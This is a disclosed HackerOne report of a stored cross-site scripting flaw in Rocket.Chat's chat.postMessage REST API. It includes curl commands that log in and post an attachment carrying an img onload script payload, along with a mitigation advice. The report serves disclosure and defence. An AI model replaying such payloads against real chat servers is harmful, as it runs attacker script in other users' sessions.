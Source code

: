 # XSS via /api/v1/chat.postMessage 

## Report Details
- **Report ID**: 219957
- **URL**: https://hackerone.com/reports/219957
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-04-10T15:28:33.860Z
- **Disclosed**: 2024-08-10T22:01:03.393Z

## Reporter
- **Username**: gronke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to verify and then potentially issue a bounty, so be sure to take your time filling out the report!

**Summary:** An attacker can craft a custom message using the REST API that, once seen by the observer, executes arbitrary code in the context of the client user.

**Description:** According to the API documentation chat messages can have attachments. These attachments then can have fields which contain a title and subtitle for the attachment. When the attachment has an `image_url` assigned, the first field's value can be used to inject HTML tags. For example <img onload=""> can be used to execute arbitrary code. `<` must be the leading character of the field's value property.

## Releases Affected:

  * Client App (OSX)
  * Firefox 48 (Debian)
  * Firefox 52 (OSX)
  * Chrome 58 (OSX)

## Steps To Reproduce (from initial installation to vulnerability):

  1. Create a Channel or get obtain a RoomId of a private conversation
  2. Login to the Rest API
  3. Send crafted message

## Supporting Material/References:

```bash
# Login to get Auth Token and User Id
curl http://127.0.0.1:3000/api/v1/login -d "username=<USER_NAME>&password=<PASSWORD>"

# Send crafted message
curl -H "X-Auth-Token: <USER_TOKEN>" -H "X-User-Id: <USER_ID>" http://127.0.0.1:3000/api/v1/chat.postMessage -d "channel=<CHANNEL_NAME>&attachments[0][image_url]=/assets/logo&attachments[0][fields][0][title]=&attachments[0][fields][0][value]=<img src=/assets/logo width=1 height=1 onload=alert('XSS4') />You're Pwned!"
```

## Suggested mitigation

  * Encode all user inputs to HTML entities


## Attachments
No attachments
